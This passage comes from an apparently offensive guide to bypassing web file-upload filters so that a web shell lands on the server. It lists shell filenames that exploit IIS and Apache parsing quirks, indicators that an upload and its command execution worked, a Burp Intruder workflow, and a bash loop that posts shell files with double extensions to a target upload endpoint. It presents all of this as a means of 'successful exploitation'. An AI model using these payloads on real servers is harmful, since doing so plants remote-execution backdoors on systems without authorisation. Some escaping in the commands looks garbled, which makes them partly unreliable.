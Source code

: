 **5. Web Server Specific:**
```bash
# IIS
shell.asp;.jpg
shell.aspx;.png

# Apache
shell.php/.jpg
shell.phtml\\\\.png
```

### Response Analysis

**Success Indicators:**
- HTTP 200 status code
- Upload confirmation message
- File accessible via direct URL
- Command execution works

**Failure Indicators:**
- HTTP 403/406 status codes
- "Only images allowed" messages
- File not accessible
- No command execution

### Tools for Testing

**Burp Suite Intruder:**
- Load bypass wordlists
- Disable URL encoding
- Analyze response patterns
- Filter successful uploads

**Custom Fuzzing Scripts:**
```bash
#!/bin/bash
# Test double extensions
for ext in php phtml php3 php4 php5; do
    curl -X POST -F "file=@shell.\$ext.jpg" http://target/upload.php
done
```

This comprehensive guide covers all essential bypass techniques for defeating upload filters, providing both theoretical understanding and practical implementation methods for successful exploitation.
